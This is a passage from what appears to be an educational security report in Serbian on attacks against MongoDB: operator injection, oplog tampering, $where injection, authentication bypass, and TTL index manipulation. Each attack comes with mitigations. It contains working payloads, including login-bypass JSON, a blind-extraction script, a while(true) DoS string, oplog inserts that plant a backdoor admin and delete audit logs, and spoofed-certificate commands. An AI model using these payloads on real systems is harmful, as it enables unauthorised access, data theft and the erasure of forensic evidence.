    destruktivne akcije koje je teško poništiti. U krajnjem slučaju,
    nalog može biti trajno onesposobljen.

-   **Detekcija incidenta:** sve aktivnosti napadača evidentiraju se kao
    legitimne radnje autentifikovanog korisnika jer je session ID
    validan. Bez monitoringa anomalnih pristupa (npr. isti session ID
    korišćen sa različitih IP adresa) ili analitike ponašanja sesije,
    napad može ostati potpuno nevidljiv u standardnim logovima.





## Napad 1: NoSQL Injection -- MongoDB Operator Injection 

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **MongoDB query engine** i način na koji
aplikacija konstruiše upite prema bazi na osnovu korisničkog unosa. U
tipičnom toku obrade zahteva, aplikacija prima vrednosti iz HTTP zahteva
(GET parametar, POST telo, JSON body), koristi ih kao deo MongoDB filter
dokumenta i prosleđuje taj dokument metodama kao što su find(),
findOne() ili updateOne(). Kada aplikacija direktno ugrađuje korisnički
unos u query objekat bez prethodne sanitizacije, nastaje **NoSQL
Injection** ranjivost.

Ključna razlika u odnosu na klasičan SQL Injection je u tome što MongoDB
ne koristi string-bazirani query jezik --- upiti su strukturirani kao
**JSON objekti**. Umesto SQL sintakse, napadač injektuje MongoDB
operatore direktno u JSON strukturu. MongoDB podržava bogat skup
operatora koji počinju sa \$ prefiksom, kao što su:

-   \$gt (veće od)

-   \$ne (nije jednako)

-   \$where (JavaScript evaluacija na serveru)

-   \$regex (regularni izraz)

-   \$in (lista vrednosti)

-   \$or (logičko ili)

Kada korisnički unos sadrži JSON objekat umesto očekivanog string
skalara, MongoDB interpretira \$ operatore kao legitimne query
direktive, a ne kao tekst --- čime se u potpunosti menja semantika
originalnog upita.
```
// Ranjiva implementacija — direktno ugrađivanje korisničkog unosa:
app.post('/login', async (req, res) => {
    const { username, password } = req.body;

    const user = await db.collection('users').findOne({
        username: username,   // RANJIVO ako je objekat
        password: password    // RANJIVO ako je objekat
    });

    if (user) return res.json({ token: generateJWT(user) });
    return res.status(401).json({ error: 'Neispravni kredencijali' });
});
```

Suština ranjivosti je u tome što **Express.js** sa express.json()
middleware-om automatski parsira JSON request body i može primiti
objekat tamo gde se očekuje string. Ako klijent pošalje:
```
{ \"username\": {\"\$ne\": \"x\"}, \"password\": {\"\$ne\": \"x\"} }
```

MongoDB upit efektivno postaje filter koji je tačan za gotovo svaki
dokument u kolekciji.

Ranjivost je posebno opasna jer njeno iskorišćavanje ne zahteva detaljno
poznavanje interne strukture baze --- MongoDB query sintaksa je javno
dokumentovana i lako dostupna.

**2) Opis napada**

Napad se realizuje kroz više uzastopnih faza koje progresivno eskaliraju
od identifikacije ranjivosti do potpunog zaobilaženja autentifikacije i
potencijalne ekstrakcije osjetljivih podataka. Ključni uzrok ranjivosti
je činjenica da login endpoint direktno prosleđuje korisnički unos u
MongoDB upit bez validacije tipa ili sanitizacije, što omogućava
ubrizgavanje MongoDB operatora.

U implementiranom kodu ranjivost nastaje u sledećem dijelu:
```
query = {
    'username': username,
    'password': password
}
user = db.auth_users.find_one(query)
```
Pošto se vrijednosti username i password preuzimaju direktno iz JSON
tijela zahtjeva, napadač može poslati objekat umjesto stringa i time
kontrolisati strukturu MongoDB upita.

U prvoj fazi napadač testira da li aplikacija prihvata MongoDB operatore
kao dio korisničkog unosa. Najčešće se koristi operator \$ne (not
equal), koji je logički istinit za gotovo sve vrijednosti. Normalan
zahtjev:
```
POST /login
{"username": "test", "password": "test"}
```

Injection test:
```
POST /login
{"username": {"$ne": null}, "password": {"$ne": null}}
```
U ranjivoj implementaciji ovaj payload postaje:
```
find_one({
  username: { $ne: null },
  password: { $ne: null }
})
```

Treći sloj je **schema validacija** (npr. Joi):
```
const schema = Joi.object({
    username: Joi.string().alphanum().max(100).required(),
    password: Joi.string().max(128).required()
});
```
Pošto većina korisnika ima ne-null vrijednosti, uslov je zadovoljen i
baza vraća prvi dokument, što rezultuje **HTTP 200 odgovorom** i
potvrdom postojanja ranjivosti.

Razlika u statusnom kodu predstavlja jasan indikator da je moguće
izvršiti NoSQL injection.

Nakon što napadač potvrdi postojanje NoSQL injection ranjivosti,
sljedeći korak je zaobilaženje mehanizma autentifikacije. Cilj ove faze
je uklanjanje ili neutralizacija uslova provjere lozinke tako da baza
podataka vrati korisnički dokument bez stvarne verifikacije identiteta.

Osnovni princip napada zasniva se na činjenici da aplikacija korisnički
unos direktno uključuje u MongoDB upit, bez provjere tipa podataka.
Umjesto očekivanog stringa, napadač može poslati objekat koji sadrži
MongoDB operatore. Time se logika poređenja mijenja --- umjesto provjere
jednakosti, izvršava se logički izraz koji je gotovo uvijek istinit.

Na primjer, operator **\$ne** (not equal) omogućava uklanjanje uslova
provjere lozinke jer će upit biti zadovoljen za sve vrijednosti koje
nisu identične zadatoj:
```
{\"username\": \"admin\", \"password\": {\"\$ne\": \"x\"}}
```

Ovakav unos rezultuje izvršavanjem upita koji je tačan za gotovo svaki
dokument, pa baza vraća prvi odgovarajući zapis bez stvarne
autentifikacije.

Sličan efekat mogu proizvesti i drugi operatori. Operator **\$gt**
(greater than) može biti iskorišten jer su svi neprazni stringovi veći
od praznog stringa, dok **\$regex** može definisati obrazac koji
odgovara bilo kojoj vrijednosti. Takođe je moguće koristiti operator
**\$in** za testiranje više pretpostavljenih lozinki u jednom zahtjevu.

Zajednička karakteristika svih ovih tehnika jeste da uklanjaju
semantičku funkciju autentifikacije --- umjesto provjere identiteta,
upit postaje generički filter koji vraća proizvoljan korisnički
dokument, često privilegovanog korisnika.

U naprednijoj fazi napada, napadač može iskoristiti ranjivost za
postupnu rekonstrukciju osjetljivih podataka iz baze. Pošto aplikacija u
odgovoru ne vraća direktne vrijednosti polja, koristi se tehnika poznata
kao Boolean inferencija.

Osnovna ideja sastoji se u slanju niza upita koji postavljaju logička
pitanja o sadržaju ciljnog polja. Na primjer, korištenjem regularnih
izraza moguće je provjeriti da li određena vrijednost počinje konkretnim
karakterom:
```
  {\"username\": \"admin\", \"password\": {\"\$regex\": \"\^a\"}}
```

Ako server vrati uspješan odgovor, napadač zaključuje da je uslov tačan.
Iterativnim ponavljanjem ovog postupka za sve pozicije i moguće
karaktere može se rekonstruisati kompletna vrijednost polja, poput
lozinke ili tokena. Iako je proces spor i zahtijeva veliki broj
zahtjeva, omogućava ekstrakciju podataka bez direktnog pristupa bazi.

**3) Mitigacija**

Mitigacija NoSQL Injection ranjivosti zasniva se na **strogoj kontroli
korisničkog unosa prije njegove upotrebe u MongoDB upitu**. Suština
problema u ranjivoj verziji bila je činjenica da aplikacija **nije
provjeravala tip podataka**, pa je napadač mogao poslati JSON objekat sa
MongoDB operatorima (npr. \$ne, \$gt, \$regex) umjesto običnog stringa.
Zbog toga je **primarna mjera zaštite implementirana kroz eksplicitnu
provjeru tipa podataka**. U sigurnoj verziji login endpoint-a uvedena je
validacija koja osigurava da su username i password **isključivo string
vrijednosti**:
```
if not isinstance(username, str):
    return JsonResponse({
        'status': 'error',
        'message': 'Username must be a string'
    }, status=400)

if not isinstance(password, str):
    return JsonResponse({
        'status': 'error',
        'message': 'Password must be a string'
    }, status=400)
```

Ova provjera je ključna jer **operator injection zahtijeva objekat, a ne
string**. Odbijanjem svih vrijednosti koje nisu stringovi, aplikacija
**onemogućava interpretaciju MongoDB operatora** kao dijela upita i time
uklanja osnovni mehanizam napada.

Pored provjere tipa, implementirana je i **sanitizacija unosa putem
whitelist pristupa**. Umjesto filtriranja zabranjenih karaktera,
dozvoljavaju se samo jasno definisani obrasci. Za korisničko ime
primijenjen je regularni izraz koji dozvoljava **isključivo
alfanumeričke karaktere i donju crtu** u definisanom opsegu dužine:
```
import re

if not re.match(r'^[a-zA-Z0-9_]{3,20}$', username):
    return JsonResponse({
        'status': 'error',
        'message': 'Username contains invalid characters or invalid length'
    }, status=400)
```

Na ovaj način se sprječava unos specijalnih karaktera, uključujući znak
\$, koji je ključan za MongoDB operatore. Dodatno je uvedena **kontrola
dužine lozinke**, čime se sprječavaju pokušaji zloupotrebe velikih ili
manipulisanih payload-a:
```
if len(password) < 6 or len(password) > 100:
    return JsonResponse({
        'status': 'error',
        'message': 'Password length must be between 6-100 characters'
    }, status=400)
```

Kao dodatna zaštitna mjera primijenjena je **eksplicitna konverzija
vrijednosti u string** (defense-in-depth), čime se dodatno osigurava
konzistentnost tipa:
```
username = str(username)
password = str(password)
```

Tek nakon što su svi uslovi validacije zadovoljeni, izvršava se MongoDB
upit:
```
query = {
    'username': username,
    'password': password
}

user = db.auth_users.find_one(query)
```

Pošto su username i password sada **garantovano validirani stringovi**,
MongoDB više ne može interpretirati korisnički unos kao operator izraz.
Time se autentifikacija vraća na **strogo poređenje vrijednosti**, čime
se uklanja mogućnost **bypass-a autentifikacije, injection manipulacije
i slepe ekstrakcije podataka**. Mitigacija se, dakle, zasniva na
**sistemskoj validaciji tipa i whitelist kontroli unosa**, čime se
ranjivost u potpunosti neutralizuje na aplikacionom sloju.

Pored **implementirane validacije unosa**, postoje i dodatne
**preporučene mitigacije** koje predstavljaju **dopunske slojeve
zaštite**. Jedna od njih je **sanitizacija korisničkog unosa**
uklanjanjem svih ključeva koji počinju sa znakom **\$** ili sadrže znak
**tačke**, čime se direktno neutralizuju **MongoDB operator injection
pokušaji**. Ovakva zaštita se često implementira putem
**specijalizovanih biblioteka** koje automatski čiste korisnički input
prije obrade.

Na **infrastrukturnom nivou** preporučuju se i mjere **server
hardening-a**, poput **onemogućavanja server-side JavaScript izvršavanja
u MongoDB-u**, primjene **principa najmanjih privilegija** za
aplikacionog DB korisnika, te **monitoringa upita koji sadrže \$
operatore** radi rane detekcije pokušaja napada. Ove mjere **ne
uklanjaju ranjivost na aplikacionom nivou**, ali **značajno smanjuju
potencijalni uticaj** i **otežavaju eksploataciju**.

**4) Identifikacija pretnje i bezbednosne posledice**

**NoSQL Injection** direktno narušava osnovne bezbednosne ciljeve, jer
omogućava napadaču da manipuliše query logikom MongoDB engine-a
ubacivanjem operatora koji menjaju semantiku originalnog upita i
efektivno uklanjaju uslov filtriranja:

-   **Poverljivost (Confidentiality):** zaobilaženje autentifikacije
    daje napadaču pristup nalogu bez poznavanja lozinke, čime su
    eksponovani svi personalizovani podaci tog korisnika. Slepa
    ekstrakcija kroz \$regex omogućava rekonstrukciju vrednosti svakog
    polja svakog dokumenta u kolekciji --- lozinke, lični
    identifikacioni podaci, platni podaci, session tokeni. Napad ne
    ostavlja karakteristične tragove u standardnim access logovima jer
    su svi HTTP zahtevi sintaktički validni. Mogu biti narušeni
    standardi poput **GDPR**, **PCI-DSS** i **HIPAA**.

-   **Integritet (Integrity):** operator injection u update operacijama
    može izmeniti polja koja aplikaciona logika ne predviđa za
    modifikaciju --- eskalacija privilegija promenom role polja,
    modifikacija finansijskih zapisa ili brisanje verifikacionih oznaka.
    \$set, \$unset i \$inc operatori injektovani u updateOne() daju
    napadaču potpunu kontrolu nad sadržajem dokumenta bez prolaska kroz
    aplikacione validacije.

-   **Dostupnost (Availability):** ReDoS napad kroz katastrofalno spore
    \$regex uzorke može blokirati MongoDB worker thread koji se ne može
    osloboditi bez prekida procesa. Sa dovoljnim brojem paralelnih
    zahteva, thread pool postaje zauzet, a legitimni korisnici dobijaju
    connection timeout. Full collection scan kod \$where upita dodatno
    opterećuje disk I/O i degradira performanse sistema.

-   **Detekcija incidenta:** svi injection zahtevi su sintaktički
    validni JSON zahtevi ka legitimnim endpointima, pa se ne razlikuju
    od normalnog saobraćaja bez analize sadržaja. Jedini pouzdan trag
    napada može biti anomalan sadržaj query parametara vidljiv u MongoDB
    *slow query log-u*, koji nije uključen po defaultu. Bez eksplicitnog
    monitoringa \$ operatora i sistema za detekciju anomalija, napad
    može trajati dugo neprimećen.

**Napad 2: Oplog Tampering Kroz Config Server Kompromitaciju**

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **Config Server Replica Set (CSRS)** i njegovu
centralnu ulogu u MongoDB *sharded cluster* arhitekturi. Config Server
čuva ne samo *chunk metadata*, već i konfiguracije svih shard-ova,
autentifikacione podatke za međukomponentnu komunikaciju i cluster-wide
parametre. Svaka **mongos** instanca pri pokretanju čita konfiguraciju
sa CSRS-a i periodično je osvežava, što Config Server čini centralnom
tačkom poverenja za ceo cluster.

**Oplog (operations log)** je jedini mehanizam replikacije unutar
MongoDB replica set-a. Svaka write operacija beleži se u local.oplog.rs
kolekciju u idempotentnom formatu koji sadrži tip operacije
(insert/update/delete), namespace i dokument sa promenama. Secondary
čvorovi replikuju podatke isključivo konzumiranjem oplog-a sa Primary
čvora --- ne postoji alternativni mehanizam sinhronizacije.

Kritična bezbednosna karakteristika je da Secondary čvorovi **ne
validiraju semantičku ispravnost oplog zapisa**, već ih mehanički
primenjuju. To znači da direktno upisane lažne operacije u oplog bivaju
automatski propagirane na sve replike bez ikakvog filtriranja.

Suština ranjivosti je **tranzitivna eskalacija privilegija**. Config
Server sadrži connection stringove i kredencijale za sve shard-ove, jer
mongos komponente moraju biti u mogućnosti da se povežu na svaki shard
radi rutiranja upita. Napadač koji kompromituje Config Server automatski
dobija pristupne podatke za sve shard-ove. Na shard-ovima, korisnik sa
admin privilegijama može direktno pisati u local.oplog.rs, zaobilazeći
sve aplikacione validacije i autorizacione provere.

**2) Opis napada**

Napad se odvija u tri koraka koji zajedno predstavljaju najdublji nivo
kompromitovanja MongoDB arhitekture.

U prvom koraku napadač dolazi do **admin kredencijala za Config Server**
--- kroz phishing, brute-force slabih lozinki ili curenje podataka iz
source koda i konfiguracionih fajlova. Nakon prijave pristupa
config.shards kolekciji, koja sadrži kompletne connection stringove za
sve shard-ove, uključujući interne autentifikacione informacije.
```
// Pristup Config Serveru i ekstrakcija shard kredencijala:
use config
db.shards.find()
// { _id: 'shard0',
//   host: 'rs0/shard0-1:27017,shard0-2:27017',
//   internalAuth: { keyFile: '/etc/mongodb/keyfile' } }
```

U drugom koraku napadač se povezuje **direktno na shard**, zaobilazeći
mongos i sve aplikacione provere, te ubacuje lažne operacije direktno u
oplog. Secondary čvorovi kontinuirano čitaju oplog i repliciraju svaku
operaciju, pa se lažni zapisi propagiraju na sve replike u roku od
nekoliko sekundi.
```
use local

// Injektovanje lažnog admin korisnika:
db.oplog.rs.insert({
  ts: Timestamp(), v: 2, op: 'i',
  ns: 'learnhub.users',
  o: { _id: ObjectId(), username: 'backdoor', is_admin: true }
})

// Brisanje audit log zapisa:
db.oplog.rs.insert({
  ts: Timestamp(), op: 'd',
  ns: 'learnhub.audit_logs',
  o: { _id: ObjectId('dokaz_kompromitacije') }
})
```

U trećem koraku napadač uklanja tragove kompromitacije injektovanjem
delete operacija za audit log zapise. Pošto se brisanje propagira kroz
replikaciju, sistem ostaje bez forenzičkog traga napada.

**3) Mitigacija**

Suština mitigacije je **stroga mrežna izolacija Config Servera** ---
mora biti dostupan isključivo sa mongos IP adresa, nikada sa interneta,
aplikacionog sloja ili developerskih mašina.
```
# Mrežna izolacija — whitelist samo mongos IP-ova:
firewall-cmd --add-rich-rule='rule family=ipv4 source address=<mongos_IPs> accept'
```

Privilegije korisnika na shard-ovima moraju biti minimizovane, posebno
uklanjanjem direktnog pristupa oplogu.
```
// Revokacija pristupa oplogu:
db.revokeRolesFromUser('shardAdmin', [{role: 'dbAdmin', db: 'local'}])
```
MongoDB auditing treba usmeriti ka eksternom SIEM sistemu koji nije pod
kontrolom samog clustera.
```
mongod --auditDestination syslog \
  --auditFilter '{atype: {$in: ["authenticate","createUser","dropUser"]}}'
```
Takođe je važno pratiti pokušaje direktnih konekcija na shard-ove,
posebno ako dolaze sa IP adresa koje nisu mongos instance.

Dodatne preporuke uključuju:

-   korišćenje **X.509 sertifikata** za internu autentifikaciju umesto lozinki,

-   redovnu rotaciju internih kredencijala (najmanje na 90 dana),

-   zabranu čuvanja MongoDB lozinki u source kodu ili plaintext konfiguracijama.

**4) Identifikacija pretnje i bezbednosne posledice**

Napad direktno narušava osnovne bezbednosne ciljeve, jer napadaču daje
potpunu kontrolu nad **replikacionim mehanizmom** i, posredno, nad
celokupnim sadržajem baze podataka:

-   **Poverljivost (Confidentiality):** kompromitacija Config Server-a
    daje kredencijale za sve shard-ove i direktan pristup svim podacima
    u svim kolekcijama. Čitanje oplog-a otkriva kompletnu istoriju svih
    write operacija, uključujući inserte sa ličnim podacima koji su
    možda već obrisani iz baze. Napadač može replay-ovati oplog i
    rekonstruisati istoriju podataka. Time se narušavaju standardi poput
    **GDPR**, **HIPAA** i **PCI-DSS**.

-   **Integritet (Integrity):** direktno pisanje u oplog daje napadaču
    potpunu kontrolu nad sadržajem baze na svim replikama bez ijedne
    aplikacione provere. Moguće je ubaciti lažne korisničke naloge,
    menjati finansijske zapise, kreirati backdoor pristup i brisati
    legitimne podatke --- sve se automatski propagira na sve članove
    replica set-a. Ovo predstavlja najteži integritetni napad moguć u
    MongoDB arhitekturi.

-   **Dostupnost (Availability):** masovne delete operacije injektovane
    kroz oplog mogu obrisati kritične podatke sa svih replika i izazvati
    potpuni aplikacioni prekid rada. Brisanje audit logova dodatno
    uništava sposobnost incident response-a i forenzičke analize.

-   **Detekcija incidenta:** injektovane oplog operacije izgledaju
    identično legitimnim operacijama iz perspektive Secondary čvorova i
    standardnih monitoring alata. **GDPR član 33** zahteva sposobnost
    dokumentovanja bezbednosnog incidenta --- uništen audit trail
    direktno onemogućava regulatornu usklađenost i pravovremeno
    prijavljivanje povrede podataka.

## Napad 3: Aggregation Pipeline \$where Injection

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **\$where** operator u MongoDB query engine-u,
koji omogućava filtriranje dokumenata evaluacijom arbitrarnog JavaScript
koda na serveru. Za razliku od nativnih MongoDB operatora koji se
izvršavaju kao optimizovani C++ kod i mogu koristiti indekse, \$where
koristi ugrađeni JavaScript engine unutar **mongod** procesa. Tokom
evaluacije, JavaScript dobija pristup trenutnom dokumentu kroz referencu
this i može koristiti standardne JS operacije za poređenje, manipulaciju
stringovima i logiku.

Kritična tehnička karakteristika je da \$where **uvek radi full
collection scan** --- ne može koristiti indekse. JavaScript se izvršava
sekvencijalno za svaki dokument, bez timeout-a po defaultu, a
single-threaded priroda izvršavanja znači da jedna zahtevna operacija
može blokirati ceo worker thread.
```
# Ranjiva aplikaciona implementacija:
@app.route('/api/search')
def search_students():
    name_filter = request.args.get('name')
    query = {'$where': f"this.name == '{name_filter}'"}  # RANJIVO
    results = db.students.find(query)
    return jsonify(list(results))
```
Suština ranjivosti je klasičan **injection princip**: aplikacija
konstruiše \$where JavaScript izraz konkatenacijom korisničkog unosa bez
sanitizacije. Napadač može prekinuti originalnu logiku i ubaciti
sopstveni kod koji se izvršava na serveru nad svim dokumentima
kolekcije.

**2) Opis napada**

Napad se odvija kroz više faza --- od potvrde ranjivosti do ekstrakcije
podataka.

U prvoj fazi napadač šalje **tautološki izraz** kako bi potvrdio
injection tačku. Ako endpoint vrati sve dokumente umesto filtriranih,
ranjivost je potvrđena.
```
# Faza 1 — potvrda injection tačke:
GET /api/search?name=' || 1==1 || '
# $where → vraća SVE dokumente
```

U drugoj fazi sledi **schema enumeration** --- otkrivanje polja
dokumenta pomoću JavaScript funkcija.
```
# Faza 2 — otkrivanje strukture:
GET /api/search?name='; return Object.keys(this).join(','); //
# Otkriva polja: _id,name,ssn,email,credits,payment_info
```

Centralni deo napada je **Boolean blind ekstrakcija podataka**. Napadač
postavlja pitanja o svakom karakteru vrednosti polja i zaključuje
odgovor na osnovu toga da li je dokument vraćen.
```
def extract_field(student_id, field, max_len=20):
    extracted = ''
    for pos in range(max_len):
        for ch in '0123456789abcdefghijklmnopqrstuvwxyz-@.':
            payload = f"'; if(this._id=='{student_id}'&&"
            payload += f"this.{field}.charAt({pos})=='{ch}') return true;"
            payload += " return false; //"
            r = requests.get(f'/api/search?name={payload}')
            if r.json():
                extracted += ch
                break
        else:
            break
    return extracted
```

Na ovaj način moguće je rekonstruisati osetljive podatke (npr. SSN)
karakter po karakter uz relativno mali broj zahteva.

Pored ekstrakcije, napadač može izvesti i **DoS napad** ubacivanjem
beskonačne petlje:
```
GET /api/search?name=\'; while(true){}; //
```

Ovakav payload blokira MongoDB worker thread koji se ne može osloboditi
bez prekida procesa. Sa dovoljnim brojem paralelnih zahteva, thread pool
postaje zauzet i legitimni korisnici dobijaju connection timeout.

**3) Mitigacija**

Fundamentalna i jedina sigurna mitigacija je **potpuno eliminisanje**
\$where **operatora** iz koda. Svaki upit koji koristi \$where može i
treba prepisati nativnim MongoDB operatorima, koji su ne samo bezbedniji
--- jer ne izvršavaju arbitrarni kod --- već i znatno brži jer mogu
koristiti indekse. Na nivou server konfiguracije, JavaScript engine se
može u potpunosti isključiti startup flagom \--noscripting, čime se
onemogućavaju \$where i svi srodni JS operatori.
```
# POGREŠNO — ranjivo:
query = {'$where': f"this.name == '{user_input}'"}

# ISPRAVNO — nativni operator:
query = {'name': user_input}
```

```
# Server nivo — onemogućiti JS engine:
mongod --noscripting
```

Dodatno treba primeniti **whitelist validaciju unosa**:
```
import re

def validate(s):
    if not re.match(r'^[a-zA-Z0-9\s]{1,100}$', s):
        raise ValueError('Neispravni karakteri')
    return s
```

Pored eliminacije \$where, potrebno je primeniti princip najmanjih
privilegija nad DB korisnikom --- aplikacioni korisnik ne sme imati
pristup kolekcijama koje nisu neophodne. Whitelist validacija (npr.
dozvoljeni samo alfanumerički karakteri) efikasno uklanja injection
vektore na aplikacionom sloju.

**4) Identifikacija pretnje i bezbednosne posledice**

Napad direktno narušava osnovne bezbednosne ciljeve, jer omogućava
izvršavanje arbitrarnih JavaScript izraza u kontekstu MongoDB server
procesa:

-   **Poverljivost (Confidentiality):** Boolean blind ekstrakcija
    omogućava čitanje svakog polja svakog dokumenta u kolekciji bez
    direktnog prikaza u HTTP odgovoru. Lični identifikacioni podaci,
    finansijski zapisi i kredencijali mogu biti rekonstruisani sa
    relativno malim brojem zahteva. Napad ne ostavlja prepoznatljive
    tragove u aplikacionim logovima. Mogu biti narušeni standardi poput
    **GDPR**, **PCI-DSS** i **HIPAA**.

-   **Integritet (Integrity):** injektovani JavaScript može manipulirati
    logikom filtriranja i vratiti lažne ili selektivno izmenjene
    podatke. Takođe, kompromitovani podaci mogu poslužiti za sekundarne
    napade koji narušavaju integritet kroz legitimne aplikacione tokove.

-   **Dostupnost (Availability):** payload poput while(true) može
    blokirati MongoDB worker thread koji nije moguće prekinuti bez
    restartovanja procesa. Pošto \$where uvek radi full collection scan
    bez indeksa, svaki zahtev je skup, a paralelne beskonačne petlje
    mogu potpuno zauzeti thread pool i blokirati legitiman saobraćaj.

-   **Detekcija incidenta:** svi zahtevi sa injection payload-ima
    izgledaju kao validni HTTP zahtevi ka legitimnim endpointima. Jedini
    pouzdan trag može biti neobičan query obrazac u MongoDB profileru,
    ali samo ako je profilisanje eksplicitno uključeno --- standardni
    application logovi ne beleže sadržaj \$where izraza.

## Napad 4: Authentication ByPass -- Scram-SHA I X.509

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za MongoDB **SCRAM (Salted Challenge Response
Authentication Mechanism)** autentifikacioni protokol i **X.509
certifikatnu autentifikaciju**. SCRAM-SHA-256 je challenge-response
protokol koji sprečava slanje lozinke u čistom tekstu --- umesto lozinke
razmenjuju se kriptografski dokazi. MongoDB pri čuvanju korisničkih
podataka ne skladišti lozinku ni u plaintext ni kao standardni hash, već
čuva **StoredKey** (HMAC-SHA-256 nad ClientKey) i **ServerKey**
(HMAC-SHA-256 nad SaltedPassword), zajedno sa salt-om i brojem PBKDF2
iteracija (podrazumevano 15000).

Suština ranjivosti nastaje kroz više vektora:

Prvo, MongoDB instance pokrenute bez \--auth flaga ne zahtevaju nikakvu
autentifikaciju --- svako ko može pristupiti portu **27017** dobija pun
pristup bazi. Ovo je bio podrazumevani režim u verzijama pre 2.6 i i
dalje se javlja u pogrešno konfigurisanim okruženjima.

Drugo, korisnik sa dovoljnim privilegijama može čitati kolekciju
system.users i eksfiltrirati **StoredKey** i **ServerKey** vrednosti.
Iako to nisu direktne lozinke, mogu se iskoristiti za **SCRAM replay
napade** bez poznavanja originalne lozinke.

Treće, MongoDB nema ugrađen **account lockout mehanizam**, pa napadač
može pokušavati autentifikaciju neograničen broj puta, što omogućava
brute-force napade.

Poseban vektor predstavlja **X.509 certifikatna autentifikacija**.
MongoDB korisnici mogu biti definisani pomoću **CN (Common Name)** iz
certifikata, a klijent koji prezentuje validan certifikat sa
odgovarajućim CN-om automatski se autentifikuje. Ako CA nije pravilno
konfigurisan i prihvata self-signed certifikate, napadač koji može
generisati certifikat sa željenim CN-om može u potpunosti zaobići SCRAM
autentifikaciju.

**2) Opis napada**

Napad varira u zavisnosti od dostupnog vektora.

U scenariju **unauthenticated instance**, napadač skenira port **27017**
i pokušava direktnu konekciju. Ako je MongoDB pokrenut bez \--auth,
moguće je pristupiti svim bazama bez ikakvih kredencijala, a alat poput
**mongodump** može eksfiltrirati kompletnu bazu u jednoj komandi.
```
# Skeniranje MongoDB instance:
nmap -p 27017 --script mongodb-info target_ip

# Direktna konekcija bez autentifikacije:
mongo --host target_ip
> show dbs
> use learnhub
> db.students.find()
```

U scenariju **SCRAM credential harvest-a**, napadač sa privilegovanim
pristupom čita kolekciju system.users i eksfiltrira StoredKey i
ServerKey vrednosti. Ovi kriptografski dokazi mogu se koristiti direktno
u SCRAM challenge-response procesu, bez poznavanja originalne lozinke.
```
// Ekstrakcija SCRAM kredencijala:
use admin
db.system.users.find({}, {credentials: 1})
// Vraća StoredKey i ServerKey za korisnike
```

U scenariju **X.509 spoofing-a**, napadač generiše certifikat sa CN koji
odgovara MongoDB korisniku. Ako server prihvata self-signed certifikate
ili ima pogrešno konfigurisan CA trust, autentifikacija može biti
uspešna bez lozinke.
```
# Generisanje lažnog certifikata:
openssl req -new -key att.key -out att.csr \
  -subj '/CN=apiUser/OU=apps/O=LearnHub'

# Povezivanje preko TLS autentifikacije:
mongo --tls --tlsCertificateKeyFile att.pem --host target
```

**3) Mitigacija**

Primarna i neophodna mera je osigurati da je svaka MongoDB instanca
pokrenuta sa \--auth **flagom** i **TLS enkripcijom** za sve konekcije.
Network binding treba ograničiti tako da **mongod sluša samo na internim
interfejsima**, a firewall pravila moraju blokirati port **27017** sa
spoljašnjih mreža. Pošto MongoDB nema ugrađen account lockout,
ograničenje broja neuspešnih pokušaja autentifikacije treba
implementirati na nivou proxy-ja ili firewall-a.
```
# Pokretanje mongod sa autentifikacijom i TLS-om:
mongod --auth --tlsMode requireTLS \
  --tlsCertificateKeyFile /etc/ssl/mongodb.pem \
  --bind_ip 127.0.0.1,10.0.0.5
```

```
// Kreiranje admin korisnika:
use admin
db.createUser({
  user: 'mongoAdmin',
  pwd: passwordPrompt(),
  roles: [{role: 'userAdminAnyDatabase', db: 'admin'}]
})
```

```
# Firewall — blokirati pristup spolja:
iptables -A INPUT -p tcp --dport 27017 -s 10.0.0.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 27017 -j DROP
```

Za **X.509 autentifikaciju** obavezno koristiti organizacioni CA koji
verifikuje identitet i nikada ne prihvatati self-signed certifikate.
Potrebno je pratiti broj neuspešnih pokušaja autentifikacije i
generisati alert pri anomalijama (npr. \>10 pokušaja u kratkom periodu).
Takođe treba primeniti princip najmanjih privilegija --- aplikacioni
korisnik treba imati samo *readWrite* pristup svojoj bazi, nikada admin
role.

**4) Identifikacija pretnje i bezbednosne posledice**

Napad direktno narušava osnovne bezbednosne ciljeve, jer omogućava
neautorizovan pristup celokupnoj bazi podataka zaobilazeći sve mehanizme
autentifikacije:

-   **Poverljivost (Confidentiality):** uspešan authentication bypass
    omogućava pristup svim kolekcijama i dokumentima bez aplikacione
    kontrole. Kompletna eksfiltracija ličnih i finansijskih podataka
    moguća je u jednoj *mongodump* operaciji. Time se krše standardi
    poput **GDPR**, **PCI-DSS** i **HIPAA**.

-   **Integritet (Integrity):** napadač može direktno menjati ili
    brisati bilo koji dokument kroz MongoDB shell bez prolaska kroz
    aplikacionu validaciju. Moguće je kreirati privilegovane naloge,
    menjati finansijske zapise ili brisati audit logove. Sve promene se
    beleže samo na nivou baze, ako je monitoring uopšte uključen.

-   **Dostupnost (Availability):** napadač sa administrativnim pristupom
    može pokrenuti db.dropDatabase() ili obrisati kolekcije u jednoj
    komandi, što predstavlja trenutni i često nepovratan gubitak
    podataka. Čak i bez destruktivnih radnji, masovne read operacije
    mogu opteretiti disk I/O i degradirati performanse sistema.

-   **Detekcija incidenta:** ako autentifikacija nije uključena,
    konekcije ne ostavljaju autentifikacione tragove u logovima. Kod
    SCRAM replay napada, autentifikacija izgleda potpuno legitimno jer
    koristi validne kriptografske parametre. Bez MongoDB auditing-a
    usmerenog ka eksternom SIEM sistemu, napad može ostati potpuno
    neprimećen.

## Napad 5: TTL Index Manipulation 

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **TTL (Time-To-Live) indekse** --- specijalni tip
MongoDB indeksa koji automatski briše dokumente nakon isteka definisanog
vremena. TTL indeks se kreira nad *date* poljem sa parametrom
expireAfterSeconds, a brisanje izvršava **TTL Monitor** background
thread koji se pokreće približno svakih 60 sekundi. Tipične primene
uključuju session management, OTP tokene, audit log retention i GDPR
politike čuvanja podataka.

Suština ranjivosti je u **nedovoljno granularnoj kontroli pristupa nad
indeks operacijama**. MongoDB RBAC model daje roli **dbAdmin** pravo
upravljanja indeksima, ali ta rola istovremeno omogućava i mnoge druge
administrativne operacije. Ne postoji finija privilegija koja bi
dozvolila samo kreiranje određenih indeksa, a zabranila promenu TTL
konfiguracije. Napadač sa dbAdmin privilegijama može obrisati postojeći
TTL indeks i kreirati novi sa izmenjenim expireAfterSeconds, nakon čega
TTL Monitor automatski primenjuje novu politiku brisanja.

**2) Opis napada**

Napad se može realizovati kroz dve strategije, u zavisnosti od cilja.

